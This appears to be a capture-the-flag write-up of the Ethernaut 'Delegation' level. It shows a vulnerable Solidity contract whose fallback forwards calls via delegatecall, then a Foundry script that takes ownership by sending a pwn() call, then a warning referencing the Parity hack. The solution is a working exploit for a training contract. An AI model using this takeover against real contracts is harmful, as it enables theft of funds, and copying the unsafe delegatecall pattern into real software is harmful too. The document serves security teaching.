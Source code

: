 ```yaml
---
title: "Delegation"
date: "2024-02-01"
lastmod: "2024-02-12T14:45:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
weight: 6
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/6"
next: "Force-79bc75128abc41f2b25e56b521833ab6"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "0c005c8b-167c-4966-9267-71bad0ff918c"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T14:45:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel6.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Token-4a8cb8765f8c412190f2db4a7989f9b5"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-01"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 6
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/6"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Force-79bc75128abc41f2b25e56b521833ab6"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Force-79bc75128abc41f2b25e56b521833ab6"
          href: null
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Delegation"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Delegation"
          href: null
  url: "https://www.notion.so/Delegation-0c005c8b167c4966926771bad0ff918c"
  public_url: null
UPDATE_TIME: "2024-02-13T10:44:44.329Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


The goal of this level is for you to claim ownership of the instance you are given.


Things that might help

- Look into Solidity's documentation on the `delegatecall`
low level function, how it works, how it can be used to delegate
operations to on-chain libraries, and what implications it has on
execution scope.
- Fallback methods
- Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

interface Delegation {
  function owner() external returns(address);
  fallback() external;
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_06");

        vm.startBroadcast(deployerPrivateKey);

        Delegation delegation = Delegation(addr);

        console.logAddress(delegation.owner());

        bytes memory data = abi.encodeWithSignature("pwn()");
        (bool result, ) = address(delegation).call(data);
        if (result) {
        }

        console.logAddress(delegation.owner());


        vm.stopBroadcast();
    }
}
```


Usage of `delegatecall` is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, 
-other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The `delegatecall` function is a powerful feature, but a dangerous one, and must be used with extreme care.


Please refer to the [The Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7) article for an accurate explanation of how this idea was used to steal 30M USD.

